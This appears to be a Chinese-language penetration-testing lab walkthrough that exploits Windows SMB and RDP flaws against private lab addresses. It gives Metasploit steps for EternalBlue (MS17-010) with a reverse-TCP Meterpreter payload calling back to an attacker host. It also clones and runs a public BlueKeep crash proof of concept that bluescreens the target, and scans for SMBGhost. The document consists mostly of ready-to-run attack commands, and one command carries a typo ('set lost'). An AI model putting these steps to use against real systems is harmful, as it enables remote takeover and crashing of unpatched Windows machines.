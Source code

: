 这个win7 不给我面子 。。。



## 永恒之蓝（MS17-010）

```
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set rhost 10.4.7.22
set payload windows/x64/meterpreter/reverse_tcp
set lost 10.4.7.20 
set lport 4444
exploit
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQZfYqCcbw9hdiayClad3IIInWBARqXM5e5mOYINpBYQ2nruDncoyKSSxia2TSSvYpPcOQ0ldEhXqYYA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)





## 远程3389（CVE-2019-0708）与MS12-020

```
use  auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set rhosts 10.4.7.22
set rport 3389
run
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQZfYqCcbw9hdiayClad3IIInuiat3xlHXeJhJR2WAMdLou3ZEH31yDfrIIic0nuotYEg5iaNrictDAPVNA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



```
apt-get install python3-pip
pip3 install impacket
git clone https://github.com/n1xbyte/CVE-2019-0708.git
cd CVE-2019-0708
python3 crashpoc.py 10.4.7.22 64 
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQZfYqCcbw9hdiayClad3IIInCQMLV1AD7T5D0xfayhunBkYhHD2hM2RyB9kiaLRNbRibFIAgMyPbBzgQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



## 永恒之黑 (CVE-2020-0796)



蓝屏攻击



```
git clone https://github.com/ollypwn/SMBGhost.git
cd SMBGhost/
python3 scanner.py 10.4.7.30
```
